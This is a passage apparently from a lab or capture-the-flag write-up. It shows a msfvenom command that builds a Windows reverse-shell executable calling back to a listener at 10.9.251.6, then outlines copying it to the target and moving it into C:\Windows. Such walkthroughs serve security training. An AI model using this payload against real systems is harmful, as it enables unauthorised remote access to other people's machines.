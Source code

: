     * Create out payload

        ```
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.251.6 LPORT=5555 -f exe -o revshell.exe
        ```

        ![task6-payload3](./images/task6-payload3.png)

    * Transfer our payload to target machine

        ![task6-download](./images/task6-download.png)

    * Move our payload to `C:\Windows`

        ![task6-move](./images/task6-move.png)
    